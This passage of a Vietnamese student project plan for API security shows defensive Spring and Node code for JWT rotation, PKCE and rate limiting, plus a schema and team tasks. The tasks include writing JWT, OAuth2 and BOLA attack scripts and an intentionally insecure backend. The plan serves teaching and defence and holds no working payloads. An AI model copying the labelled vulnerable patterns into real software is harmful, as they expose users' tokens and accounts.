        // 3. Đánh dấu token đã sử dụng
        markTokenAsUsed(tokenId);
        
        // 4. Tạo cặp token MỚI
        User user = userRepository.findById(claims.getSubject());
        return new TokenPair(
            generateAccessToken(user),
            generateRefreshToken(user)
        );
    }
    
    /**
     * Token Blacklisting sử dụng Redis
     */
    public void blacklistToken(String token) {
        Claims claims = parseToken(token);
        String tokenId = claims.get("token_id", String.class);
        long ttl = claims.getExpiration().getTime() - System.currentTimeMillis();
        
        if (ttl > 0) {
            redisTemplate.opsForValue().set(
                "blacklist:" + tokenId, 
                "revoked", 
                ttl, TimeUnit.MILLISECONDS
            );
        }
    }
    
    public boolean isTokenBlacklisted(String tokenId) {
        return redisTemplate.hasKey("blacklist:" + tokenId);
    }
}
```

#### Defense #3: Secure Token Storage

```javascript
// ✅ SECURE: Lưu token trong HttpOnly Cookie (chống XSS)
// Backend - Set token trong cookie
app.post('/api/auth/login', async (req, res) => {
    const { accessToken, refreshToken } = await authenticate(req.body);
    
    // Access token - HttpOnly, Secure, SameSite
    res.cookie('access_token', accessToken, {
        httpOnly: true,      // JavaScript KHÔNG truy cập được
        secure: true,        // Chỉ gửi qua HTTPS
        sameSite: 'Strict',  // Chống CSRF
        maxAge: 15 * 60 * 1000,  // 15 phút
        path: '/api'         // Chỉ gửi cho API routes
    });
    
    // Refresh token - Path riêng biệt
    res.cookie('refresh_token', refreshToken, {
        httpOnly: true,
        secure: true,
        sameSite: 'Strict',
        maxAge: 7 * 24 * 60 * 60 * 1000,
        path: '/api/auth/refresh'  // Chỉ gửi khi refresh
    });
    
    res.json({ message: 'Login successful' });
});

// ❌ VULNERABLE: Lưu trong localStorage (bị XSS đánh cắp)
// localStorage.setItem('token', accessToken);  // ĐỪNG LÀM!
```

---

### 3.2 OAuth2 Security Best Practices



#### Defense #4: PKCE Implementation (Chống Authorization Code Interception)

```java
// OAuth2 PKCE Implementation
@RestController
@RequestMapping("/oauth")
public class OAuth2Controller {
    
    /**
     * Authorization Endpoint - Yêu cầu PKCE
     */
    @GetMapping("/authorize")
    public ResponseEntity<?> authorize(
        @RequestParam String client_id,
        @RequestParam String redirect_uri,
        @RequestParam String response_type,
        @RequestParam String scope,
        @RequestParam String state,
        @RequestParam String code_challenge,           // PKCE required!
        @RequestParam String code_challenge_method      // Must be S256
    ) {
        // 1. Validate redirect_uri CHÍNH XÁC (không dùng pattern matching)
        if (!isExactRedirectUri(client_id, redirect_uri)) {
            return ResponseEntity.badRequest().body("Invalid redirect_uri");
        }
        
        // 2. Validate code_challenge_method phải là S256
        if (!"S256".equals(code_challenge_method)) {
            return ResponseEntity.badRequest().body("Only S256 supported");
        }
        
        // 3. Lưu code_challenge để verify sau
        AuthorizationRequest authRequest = new AuthorizationRequest();
        authRequest.setCodeChallenge(code_challenge);
        authRequest.setClientId(client_id);
        authRequest.setRedirectUri(redirect_uri);
        authRequest.setScope(scope);
        authRequest.setState(state);
        
        authRequestRepository.save(authRequest);
        
        // ... Show consent page
        return ResponseEntity.ok().build();
    }
    
    /**
     * Token Endpoint - Verify PKCE
     */
    @PostMapping("/token")
    public ResponseEntity<?> token(
        @RequestParam String grant_type,
        @RequestParam String code,
        @RequestParam String code_verifier,  // PKCE verifier
        @RequestParam String client_id,
        @RequestParam String redirect_uri
    ) {
        AuthorizationCode authCode = authCodeRepository.findByCode(code);
        
        // 1. Authorization code chỉ dùng 1 lần
        if (authCode.isUsed()) {
            // Phát hiện code replay! Revoke tất cả tokens liên quan
            revokeAllTokensForAuthCode(code);
            return ResponseEntity.status(400).body("Code already used");
        }
        
        // 2. Verify PKCE: SHA256(code_verifier) == code_challenge
        String computedChallenge = Base64.getUrlEncoder()
            .withoutPadding()
            .encodeToString(
                MessageDigest.getInstance("SHA-256")
                    .digest(code_verifier.getBytes(StandardCharsets.US_ASCII))
            );
        
        if (!computedChallenge.equals(authCode.getCodeChallenge())) {
            return ResponseEntity.status(400).body("Invalid code_verifier");
        }
        
        // 3. Verify redirect_uri khớp CHÍNH XÁC
        if (!redirect_uri.equals(authCode.getRedirectUri())) {
            return ResponseEntity.status(400).body("Redirect URI mismatch");
        }
        
        // 4. Mark code as used
        authCode.setUsed(true);
        authCodeRepository.save(authCode);
        
        // 5. Issue tokens
        return ResponseEntity.ok(generateTokens(authCode));
    }
}
```

#### Defense #5: Comprehensive API Security Middleware

```java
// API Security Filter Chain
@Configuration
@EnableWebSecurity
public class ApiSecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            // 1. CORS Configuration
            .cors(cors -> cors.configurationSource(corsConfiguration()))
            
            // 2. CSRF - Disable cho API (dùng JWT thay thế)
            .csrf(csrf -> csrf.disable())
            
            // 3. Security Headers
            .headers(headers -> headers
                .contentSecurityPolicy(csp -> csp
                    .policyDirectives("default-src 'self'; script-src 'self'"))
                .frameOptions(frame -> frame.deny())
                .httpStrictTransportSecurity(hsts -> hsts
                    .includeSubDomains(true)
                    .maxAgeInSeconds(31536000))
            )
            
            // 4. Rate Limiting Filter
            .addFilterBefore(rateLimitFilter(), UsernamePasswordAuthenticationFilter.class)
            
            // 5. JWT Authentication Filter
            .addFilterBefore(jwtAuthFilter(), UsernamePasswordAuthenticationFilter.class)
            
            // 6. Authorization Rules
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/api/auth/**").permitAll()
                .requestMatchers("/api/admin/**").hasRole("ADMIN")
                .requestMatchers("/api/users/{id}/**").access(ownerOrAdminAuth())
                .anyRequest().authenticated()
            );
        
        return http.build();
    }
    
    /**
     * Object-Level Authorization - Chống BOLA/IDOR
     */
    @Bean
    public AuthorizationManager<RequestAuthorizationContext> ownerOrAdminAuth() {
        return (authentication, context) -> {
            String pathUserId = context.getVariables().get("id");
            String tokenUserId = ((JwtAuthenticationToken) authentication.get())
                .getToken().getSubject();
            
            boolean isOwner = pathUserId.equals(tokenUserId);
            boolean isAdmin = authentication.get().getAuthorities().stream()
                .anyMatch(a -> a.getAuthority().equals("ROLE_ADMIN"));
            
            return new AuthorizationDecision(isOwner || isAdmin);
        };
    }
}
```

#### Defense #6: Rate Limiting Implementation

```java
// Rate Limiting Filter sử dụng Bucket4j + Redis
@Component
public class RateLimitFilter extends OncePerRequestFilter {
    
    @Autowired
    private RedisTemplate<String, String> redisTemplate;
    
    // Cấu hình rate limit theo endpoint
    private static final Map<String, RateLimit> RATE_LIMITS = Map.of(
        "/api/auth/login", new RateLimit(5, Duration.ofMinutes(15)),      // 5 req/15min
        "/api/auth/register", new RateLimit(3, Duration.ofHours(1)),      // 3 req/hour
        "/api/auth/forgot-password", new RateLimit(3, Duration.ofHours(1)),
        "DEFAULT", new RateLimit(100, Duration.ofMinutes(1))              // 100 req/min
    );
    
    @Override
    protected void doFilterInternal(HttpServletRequest request, 
                                     HttpServletResponse response, 
                                     FilterChain chain) throws ServletException, IOException {
        
        String clientIdentifier = getClientIdentifier(request);
        String endpoint = request.getRequestURI();
        RateLimit limit = RATE_LIMITS.getOrDefault(endpoint, RATE_LIMITS.get("DEFAULT"));
        
        String key = "rate_limit:" + clientIdentifier + ":" + endpoint;
        Long currentCount = redisTemplate.opsForValue().increment(key);
        
        if (currentCount == 1) {
            redisTemplate.expire(key, limit.getDuration());
        }
        
        if (currentCount > limit.getMaxRequests()) {
            response.setStatus(429);
            response.setHeader("Retry-After", String.valueOf(limit.getDuration().getSeconds()));
            response.getWriter().write("{\"error\": \"Rate limit exceeded\"}");
            
            // Log suspicious activity
            securityLogger.warn("Rate limit exceeded: {} from {}", endpoint, clientIdentifier);
            return;
        }
        
        // Thêm rate limit headers
        response.setHeader("X-RateLimit-Limit", String.valueOf(limit.getMaxRequests()));
        response.setHeader("X-RateLimit-Remaining", 
            String.valueOf(limit.getMaxRequests() - currentCount));
        
        chain.doFilter(request, response);
    }
    
    /**
     * Xác định client - KHÔNG chỉ dựa vào IP header (có thể spoof)
     */
    private String getClientIdentifier(HttpServletRequest request) {
        // Ưu tiên: Authenticated user ID > API Key > IP
        Authentication auth = SecurityContextHolder.getContext().getAuthentication();
        if (auth != null && auth.isAuthenticated()) {
            return "user:" + auth.getName();
        }
        
        // Fallback to IP (lấy từ connection, KHÔNG từ header)
        return "ip:" + request.getRemoteAddr();  // Actual connection IP
        // ❌ KHÔNG dùng: request.getHeader("X-Forwarded-For") — có thể spoof!
    }
}
```

#### Defense #7: Input Validation & Mass Assignment Protection

```java
// DTO Pattern - Chống Mass Assignment
// ❌ VULNERABLE: Bind trực tiếp entity
// @PutMapping("/profile")
// public User updateProfile(@RequestBody User user) { ... }

// ✅ SECURE: Sử dụng DTO với validation
public class UpdateProfileRequest {
    
    @NotBlank(message = "Name is required")
    @Size(min = 2, max = 50)
    @Pattern(regexp = "^[a-zA-Z\\s]+$", message = "Name contains invalid characters")
    private String name;
    
    @Email(message = "Invalid email format")
    private String email;
    
    @Size(max = 200)
    private String bio;
    
    // CHỈ các field user được phép cập nhật
    // KHÔNG có: role, isAdmin, balance, permissions...
}

@RestController
@RequestMapping("/api/users")
public class UserController {
    
    @PutMapping("/profile")
    public ResponseEntity<?> updateProfile(
        @Valid @RequestBody UpdateProfileRequest request,  // Validated DTO
        @AuthenticationPrincipal JwtUser currentUser       // From JWT
    ) {
        // Chỉ update các field từ DTO
        User user = userRepository.findById(currentUser.getId());
        user.setName(request.getName());
        user.setEmail(request.getEmail());
        user.setBio(request.getBio());
        // role, permissions, balance... KHÔNG bị ảnh hưởng
        
        userRepository.save(user);
        return ResponseEntity.ok(new UserResponse(user));
    }
}
```

---

## IV. Kiến Trúc Hệ Thống Demo

### 4.1 Tổng Quan Kiến Trúc



### 4.2 Tech Stack Đề Xuất

| Component | Technology | Lý do |
|-----------|-----------|-------|
| **Backend API** | Spring Boot 3 + Spring Security | Mature, enterprise-grade, OAuth2 built-in |
| **Auth Server** | Spring Authorization Server | Full OAuth2/OIDC compliance |
| **Database** | PostgreSQL | Reliable, JSONB support |
| **Cache/Token Store** | Redis | Fast token blacklisting |
| **Attack Scripts** | Python + requests + PyJWT | Flexible, easy to demo |
| **API Testing** | Burp Suite / OWASP ZAP | Industry standard tools |
| **Security Dashboard** | React + Chart.js / Recharts | Real-time visualization |
| **Containerization** | Docker Compose | Easy deployment for demo |

### 4.3 Database Schema

```sql
-- User Management
CREATE TABLE users (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    username VARCHAR(50) UNIQUE NOT NULL,
    email VARCHAR(100) UNIQUE NOT NULL,
    password_hash VARCHAR(255) NOT NULL,
    role VARCHAR(20) DEFAULT 'USER',
    is_active BOOLEAN DEFAULT TRUE,
    mfa_enabled BOOLEAN DEFAULT FALSE,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    updated_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- OAuth2 Client Registration
CREATE TABLE oauth2_clients (
    client_id VARCHAR(100) PRIMARY KEY,
    client_secret_hash VARCHAR(255),
    client_name VARCHAR(100) NOT NULL,
    redirect_uris TEXT[] NOT NULL,          -- Exact match, no pattern
    allowed_scopes TEXT[] NOT NULL,
    grant_types TEXT[] NOT NULL,
    require_pkce BOOLEAN DEFAULT TRUE,      -- PKCE required by default
    token_expiry_seconds INT DEFAULT 900,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Authorization Codes (short-lived)
CREATE TABLE authorization_codes (
    code VARCHAR(255) PRIMARY KEY,
    client_id VARCHAR(100) REFERENCES oauth2_clients(client_id),
    user_id UUID REFERENCES users(id),
    redirect_uri TEXT NOT NULL,
    scope TEXT NOT NULL,
    code_challenge VARCHAR(255),            -- PKCE
    code_challenge_method VARCHAR(10),
    is_used BOOLEAN DEFAULT FALSE,
    expires_at TIMESTAMP NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Refresh Tokens
CREATE TABLE refresh_tokens (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    token_hash VARCHAR(255) UNIQUE NOT NULL,
    user_id UUID REFERENCES users(id),
    client_id VARCHAR(100),
    scope TEXT,
    is_revoked BOOLEAN DEFAULT FALSE,
    expires_at TIMESTAMP NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Security Audit Log
CREATE TABLE security_audit_log (
    id BIGSERIAL PRIMARY KEY,
    event_type VARCHAR(50) NOT NULL,        -- LOGIN, LOGOUT, TOKEN_REFRESH, ATTACK_DETECTED
    user_id UUID,
    ip_address INET,
    user_agent TEXT,
    endpoint VARCHAR(255),
    method VARCHAR(10),
    status_code INT,
    details JSONB,                          -- Chi tiết sự kiện
    risk_level VARCHAR(20),                 -- LOW, MEDIUM, HIGH, CRITICAL
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Indexes for performance
CREATE INDEX idx_audit_log_event_type ON security_audit_log(event_type);
CREATE INDEX idx_audit_log_created_at ON security_audit_log(created_at);
CREATE INDEX idx_audit_log_risk_level ON security_audit_log(risk_level);
CREATE INDEX idx_refresh_tokens_user ON refresh_tokens(user_id);
```

---

## V. Phân Công Nhiệm Vụ Nhóm 3 Người

### 5.1 Tổng Quan Phân Công



---

### 5.2 Chi Tiết Phân Công

### 👑 THÀNH VIÊN A — LEAD (Kiến Trúc Sư + Core Security)

> [!IMPORTANT]
> Lead chịu trách nhiệm phần **cốt lõi** và **tích hợp toàn bộ hệ thống**

#### Nhiệm vụ chính:

| # | Task | Chi tiết | Output |
|---|------|---------|--------|
| A1 | **Thiết kế kiến trúc hệ thống** | Vẽ sơ đồ kiến trúc, xác định tech stack, thiết kế database schema, setup Docker Compose | Architecture document, docker-compose.yml |
| A2 | **Implement JWT Service** | Tạo JWT generation/validation, RS256 signing, token rotation, blacklisting với Redis | `JwtTokenService.java`, `JwtAuthFilter.java` |
| A3 | **Implement OAuth2 Authorization Server** | Authorization Code + PKCE flow, token endpoint, client registration, scope validation | `OAuth2AuthorizationConfig.java`, `TokenEndpoint.java` |
| A4 | **Security Filter Chain** | Cấu hình Spring Security, CORS, rate limiting integration, security headers | `SecurityConfig.java`, `RateLimitFilter.java` |
| A5 | **Object-Level Authorization (Chống BOLA)** | Implement owner-or-admin authorization cho mỗi resource | `OwnershipAuthorizationManager.java` |
| A6 | **Code Review & Integration** | Review code của B và C, đảm bảo consistency, resolve conflicts | Review comments, merge PRs |
| A7 | **Viết phần "Giải pháp bảo mật" trong báo cáo** | Giải thích chi tiết tại sao mỗi defense hoạt động | Chương 4 báo cáo |

#### Files chịu trách nhiệm:
```
backend/
├── src/main/java/com/apisecurity/
│   ├── config/
│   │   ├── SecurityConfig.java              ← A
│   │   ├── OAuth2AuthorizationConfig.java   ← A
│   │   ├── CorsConfig.java                  ← A
│   │   └── RedisConfig.java                 ← A
│   ├── security/
│   │   ├── jwt/
│   │   │   ├── JwtTokenService.java         ← A
│   │   │   ├── JwtAuthFilter.java           ← A
│   │   │   └── JwtProperties.java           ← A
│   │   ├── oauth2/
│   │   │   ├── OAuth2Controller.java        ← A
│   │   │   ├── PkceValidator.java           ← A
│   │   │   └── ScopeValidator.java          ← A
│   │   ├── filter/
│   │   │   ├── RateLimitFilter.java         ← A
│   │   │   └── SecurityAuditFilter.java     ← A
│   │   └── authorization/
│   │       └── OwnershipAuthManager.java    ← A
│   └── ...
├── docker-compose.yml                        ← A
└── README.md                                 ← A (tổng hợp)
```

---

### 🔴 THÀNH VIÊN B — ATTACKER (Pentester + Demo Scenarios)

> [!NOTE]
> B chịu trách nhiệm viết **toàn bộ attack scripts** và **thiết kế demo scenarios**

#### Nhiệm vụ chính:

| # | Task | Chi tiết | Output |
|---|------|---------|--------|
| B1 | **JWT Attack Scripts** | Algorithm Confusion, None Algorithm, Brute-force secret, JKU Injection, Token Replay | `attacks/jwt/` — 5 scripts Python |
| B2 | **OAuth2 Attack Scripts** | Auth Code Interception, CSRF on OAuth, Scope Abuse, Open Redirect | `attacks/oauth2/` — 4 scripts Python |
| B3 | **API Attack Scripts** | BOLA/IDOR, Mass Assignment, Rate Limit Bypass, API Enumeration, Injection | `attacks/api/` — 5 scripts Python |
| B4 | **Vulnerable API Version** | Tạo version API "dễ bị tấn công" (không có defense) để demo before/after | `backend-vulnerable/` module |
| B5 | **Demo Scenarios** | Tạo kịch bản demo step-by-step cho buổi thuyết trình, có screenshot | Demo document + recordings |
| B6 | **OWASP ZAP / Burp Suite Scanning** | Chạy automated scan trên cả 2 versions (vulnerable vs secure) | Scan reports (PDF) |
| B7 | **Viết phần "Phân tích tấn công" trong báo cáo** | Mô tả chi tiết từng attack, CVE references | Chương 3 báo cáo |

#### Files chịu trách nhiệm:
```
attacks/
├── jwt/
│   ├── 01_algorithm_confusion.py       ← B
│   ├── 02_none_algorithm.py            ← B
│   ├── 03_secret_bruteforce.py         ← B
│   ├── 04_jku_injection.py             ← B
│   └── 05_token_replay.py             ← B
├── oauth2/
│   ├── 01_auth_code_intercept.py       ← B
│   ├── 02_csrf_oauth.py                ← B
│   ├── 03_scope_abuse.py               ← B
│   └── 04_open_redirect.py             ← B
├── api/
│   ├── 01_bola_idor.py                 ← B
│   ├── 02_mass_assignment.py           ← B
│   ├── 03_rate_limit_bypass.py         ← B
│   ├── 04_api_enumeration.py           ← B
│   └── 05_injection_probes.py          ← B
├── requirements.txt                     ← B
├── config.py                            ← B (target URLs, tokens)
└── README.md                            ← B

backend-vulnerable/                      ← B (Intentionally insecure version)
├── src/main/java/...
│   ├── VulnerableJwtConfig.java        ← B (accepts any algorithm)
│   ├── VulnerableUserController.java   ← B (no authorization check)
│   └── ...
└── docker-compose-vulnerable.yml        ← B

demo/
├── scenarios/
│   ├── demo_01_jwt_attacks.md          ← B
│   ├── demo_02_oauth_attacks.md        ← B
│   └── demo_03_before_after.md         ← B
└── recordings/                          ← B (screen recordings)
```

#### Cấu trúc mỗi Attack Script:
```python
#!/usr/bin/env python3
"""
Attack: [Tên tấn công]
CVE: [Nếu có]
OWASP: [API Security Top 10 reference]
Target: [Vulnerable / Secure version]
"""

import argparse
import requests
from colorama import Fore, Style

class AttackRunner:
    def __init__(self, target_url):
        self.target = target_url
        self.results = []
    
    def run_attack(self):
        """Thực hiện tấn công"""
        print(f"{Fore.RED}[ATTACK]{Style.RESET_ALL} Running...")
        # ... attack logic
    
    def show_results(self):
        """Hiển thị kết quả"""
        # Before/After comparison
        print(f"\n{'='*60}")
        print(f"{Fore.RED}VULNERABLE VERSION: Attack SUCCEEDED ✓{Style.RESET_ALL}")
        print(f"{Fore.GREEN}SECURE VERSION: Attack BLOCKED ✗{Style.RESET_ALL}")
        print(f"{'='*60}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--target", required=True, help="Target API URL")
    parser.add_argument("--version", choices=["vulnerable", "secure"], default="vulnerable")
    args = parser.parse_args()
    
    runner = AttackRunner(args.target)
    runner.run_attack()
    runner.show_results()
```

---

### 🟢 THÀNH VIÊN C — DEFENDER (Frontend + Monitoring + Infrastructure)

> [!NOTE]
> C chịu trách nhiệm **API endpoints, frontend dashboard, database, và documentation**

#### Nhiệm vụ chính:

| # | Task | Chi tiết | Output |
|---|------|---------|--------|
| C1 | **API Endpoints (CRUD)** | User management, resource endpoints (đối tượng demo) | `UserController.java`, `ResourceController.java` |
| C2 | **DTO & Validation** | Tạo Request/Response DTOs, input validation (chống Mass Assignment) | `dto/` package |
| C3 | **Database Setup** | Schema design, migrations, seed data, repository layer | `schema.sql`, `*Repository.java` |
| C4 | **Security Dashboard (Frontend)** | Real-time dashboard hiển thị attacks, logs, statistics | `dashboard/` React app |
| C5 | **Security Audit Logging** | Ghi log mọi security event, integration với dashboard | `SecurityAuditService.java` |
| C6 | **Error Handling** | Global error handler, ẩn stack trace, custom error responses | `GlobalExceptionHandler.java` |
| C7 | **Viết phần "Tổng quan & Kết luận" trong báo cáo** | Phần mở đầu, lý thuyết nền, kết luận, tài liệu tham khảo | Chương 1, 2, 5 báo cáo |

#### Files chịu trách nhiệm:
```
backend/
├── src/main/java/com/apisecurity/
│   ├── controller/
│   │   ├── UserController.java           ← C
│   │   ├── ResourceController.java       ← C
│   │   └── AuthController.java           ← C (login/register endpoints)
│   ├── dto/
│   │   ├── request/
│   │   │   ├── LoginRequest.java         ← C
│   │   │   ├── RegisterRequest.java      ← C
│   │   │   └── UpdateProfileRequest.java ← C
│   │   └── response/
│   │       ├── UserResponse.java         ← C
│   │       ├── TokenResponse.java        ← C
│   │       └── ErrorResponse.java        ← C
│   ├── model/
│   │   ├── User.java                     ← C
│   │   ├── SecurityAuditLog.java         ← C
│   │   └── ...                           ← C
│   ├── repository/
│   │   ├── UserRepository.java           ← C
│   │   └── AuditLogRepository.java       ← C
│   ├── service/
│   │   ├── UserService.java              ← C
│   │   └── SecurityAuditService.java     ← C
│   ├── exception/
│   │   └── GlobalExceptionHandler.java   ← C
│   └── ...
├── src/main/resources/
│   ├── application.yml                    ← C
│   ├── schema.sql                         ← C
│   └── data.sql                           ← C (seed data)

dashboard/                                  ← C (React Frontend)
├── src/
│   ├── components/
│   │   ├── SecurityDashboard.jsx          ← C
│   │   ├── AttackLogTable.jsx             ← C
│   │   ├── RealTimeChart.jsx              ← C
│   │   ├── ThreatMap.jsx                  ← C
│   │   └── TokenInspector.jsx             ← C
│   ├── pages/
│   │   ├── Dashboard.jsx                  ← C
│   │   ├── Login.jsx                      ← C
│   │   └── ApiTester.jsx                  ← C
│   └── ...
├── package.json                            ← C
└── README.md                               ← C
```

#### Security Dashboard Features:
```
┌─────────────────────────────────────────────────────────────┐
│  🛡️ API Security Dashboard                    [Live] 🟢    │
├─────────────────────┬───────────────────────────────────────┤
│                     │                                       │
│  📊 Attack Stats    │  📈 Real-time Attack Graph            │
│  ─────────────────  │  ────────────────────────             │
│  Total: 1,234       │  ▃▅▇█▅▃▂▁▃▅▇█▆▄▂▁                  │
│  Blocked: 1,198     │                                       │
│  Success: 36        │  [JWT] [OAuth2] [BOLA] [RateLimit]   │
│  Block Rate: 97.1%  │                                       │
│                     ├───────────────────────────────────────┤
├─────────────────────┤                                       │
│                     │  📋 Recent Attack Log                 │
│  🔴 Threat Level    │  ────────────────────                 │
│  ──────────────     │  14:23:01 ⚠️ JWT None Alg → BLOCKED  │
│                     │  14:22:58 🔴 BOLA /users/5 → BLOCKED │
│  ██████████ HIGH    │  14:22:45 ⚠️ Rate Limit 429 → admin  │
│                     │  14:22:30 🔴 SQL Inject → BLOCKED    │
│                     │  14:22:15 ✅ Normal GET /api/data     │
│                     │                                       │
├─────────────────────┼───────────────────────────────────────┤
│                     │                                       │
│  🔑 Active Tokens   │  🧪 Token Inspector                  │
│  ──────────────     │  ──────────────────                   │
│  Access: 45         │  [Paste JWT token here...]            │
│  Refresh: 23        │  Header: {"alg":"RS256","typ":"JWT"} │
│  Blacklisted: 12    │  Payload: {"sub":"user1","role":...} │
│                     │  Signature: ✅ Valid                   │
│                     │  Expiry: 2024-01-15T14:30:00Z         │
│                     │                                       │
└─────────────────────┴───────────────────────────────────────┘
```

---

## VI. Timeline & Deliverables

### 6.1 Timeline (Gợi ý 6-8 tuần)



### 6.2 Cấu Trúc Báo Cáo

| Chương | Nội dung | Người viết |
|--------|----------|-----------|
| **1. Giới thiệu** | Đặt vấn đề, mục tiêu, phạm vi | C |
| **2. Cơ sở lý thuyết** | REST API, JWT, OAuth2, OWASP API Top 10 | C |
| **3. Phân tích các kỹ thuật tấn công** | 12+ attack vectors, CVE references, demo results | B |
| **4. Giải pháp bảo mật** | JWT hardening, OAuth2 + PKCE, defense implementation | A |
| **5. Kiến trúc & triển khai hệ thống** | System design, tech stack, database, deployment | A + C |
| **6. Demo & kết quả thực nghiệm** | Before/After comparison, scan reports, statistics | B + C |
| **7. Kết luận & hướng phát triển** | Tổng kết, bài học, future work | C |
| **Phụ lục** | Source code, cấu hình, hướng dẫn cài đặt | ALL |

### 6.3 Deliverables Cuối Cùng

- [ ] Source code trên GitHub (private repo)
- [ ] Docker Compose — one-command deployment
- [ ] 14 Attack scripts (Python) có documentation
- [ ] Vulnerable API version cho demo before/after
- [ ] Security Dashboard với real-time monitoring
- [ ] OWASP ZAP scan reports (2 versions)
- [ ] Báo cáo đồ án (40-60 trang)
- [ ] Slide thuyết trình (25-30 slides)
- [ ] Video demo (5-10 phút)

---

## Phụ Lục: Tài Liệu Tham Khảo

### Standards & Guidelines
1. **OWASP API Security Top 10 (2023)** — https://owasp.org/API-Security/
2. **RFC 7519** — JSON Web Token (JWT)
3. **RFC 6749** — OAuth 2.0 Authorization Framework
4. **RFC 7636** — PKCE (Proof Key for Code Exchange)
5. **RFC 9068** — JWT Profile for OAuth 2.0 Access Tokens

### Attack Research
6. **PortSwigger JWT Attacks** — https://portswigger.net/web-security/jwt
7. **Auth0 JWT Handbook** — https://auth0.com/resources/ebooks/jwt-handbook
8. **CVE-2015-9235** — JWT Algorithm Confusion
9. **HackTricks JWT** — https://book.hacktricks.xyz/pentesting-web/hacking-jwt-jsonwebtokens

### Tools
10. **jwt_tool** — https://github.com/ticarpi/jwt_tool
11. **OWASP ZAP** — https://www.zaproxy.org/
12. **Burp Suite** — https://portswigger.net/burp
13. **Hashcat** — https://hashcat.net/hashcat/

> [!TIP]
> **Pro tip cho demo**: Chạy tấn công trên vulnerable version trước (đỏ, thành công), sau đó chạy CÙNG tấn công trên secure version (xanh, bị chặn). Sự tương phản before/after sẽ rất ấn tượng với giảng viên.
